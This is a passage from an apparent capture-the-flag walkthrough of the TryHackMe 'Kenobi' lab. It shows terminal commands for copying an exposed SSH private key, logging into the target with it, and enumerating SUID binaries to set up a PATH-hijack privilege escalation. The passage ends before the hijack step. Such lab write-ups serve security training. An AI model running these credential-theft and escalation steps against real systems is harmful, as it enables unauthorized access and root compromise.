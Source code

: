 Check in folder `/var/tmp` and copy file `id_rsa` to kali machine.

```
┌──(Hades㉿10.11.32.198)-[2.8:27.2]~/walkthrough/tryhackme/kenobi
└─$ ls -l /mnt/var/tmp/id_rsa
-rw-r--r-- 1 kali kali 1675 Apr  9 17:23 /mnt/var/tmp/id_rsa
┌──(Hades㉿10.11.32.198)-[2.8:27.7]~/walkthrough/tryhackme/kenobi
└─$ cp /mnt/var/tmp/id_rsa .
```

Using ssh with private key connect to server and got user access.

```
┌──(Hades㉿10.11.32.198)-[2.8:27.6]~/walkthrough/tryhackme/kenobi
└─$ chmod 600 id_rsa
                                                                                                                                                                            
┌──(Hades㉿10.11.32.198)-[2.8:27.6]~/walkthrough/tryhackme/kenobi
└─$ ssh -i id_rsa kenobi@10.10.66.44
<snip>
kenobi@kenobi:~$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

## Privilege Escalation

### Path Command Overwrite 

After enum in local machine, I saw an uncommon file have SUID can run as root.

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/menu
<snip>
kenobi@kenobi:~$ ls -l /usr/bin/menu
-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu
```

Checking string in file `menu` using `strings`, I can see some command execute after run file `curl`, `uname` and `ifconfig`.

```
kenobi@kenobi:~$ strings /usr/bin/menu
<snip>
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
<snip>
```
